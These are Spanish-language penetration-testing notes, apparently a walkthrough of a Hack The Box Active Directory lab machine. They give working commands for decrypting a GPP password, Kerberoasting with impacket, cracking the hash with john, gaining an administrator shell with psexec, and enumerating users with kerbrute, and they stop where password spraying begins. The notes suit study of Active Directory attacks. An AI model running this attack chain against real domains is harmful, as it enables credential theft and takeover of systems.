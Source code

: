 Mostrar el contenido completo del archivo XML descargado.

```
cat 10.10.10.100-Replication_active.htb_Policies_{31B2F340-016D-11D2-945F-00C04FB984F9}_MACHINE_Preferences_Groups_Groups.xml
```

Desciframos.

```
gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/Ng1VmQ'
```

Si tenemos un usuario con su contraseña dentro de un dominio vemos si es vulnerable. Antes de eso sincronizamos.

```
ntpdate 10.10.10.100 (IP máquina víctima)
```

Intento obtener el Ticket Granting Service.

```
impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
```

Crackeamos.

```
john --wordlist=rockyou.txt hash.txt
```

Teniendo la contraseña deshasheada.

```
crackmapexec smb 10.10.10.100 -u 'Administrator' -p 'Ticketmaster1968'
```

Ahora conseguir una shell.

```
impacket-psexec active.htb/Administrator:Ticketmaster1968@10.10.10.100 cmd.exe
```

## Kerbrute

{% @github-files/github-code-block url="https://github.com/ropnop/kerbrute" %}

Poner `/etc/hosts`.

```
IP nombre_dominio nombre_PC nombre_PC.nombre_dominio
```

Al instalar le damos permisos de ejecución. Vemos usuarios posibles.

```
./kerbrute_linux_amd64 userenum -d cicada.htb --dc 10.10.11.71 /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt
```

Hacemos password-spraying.
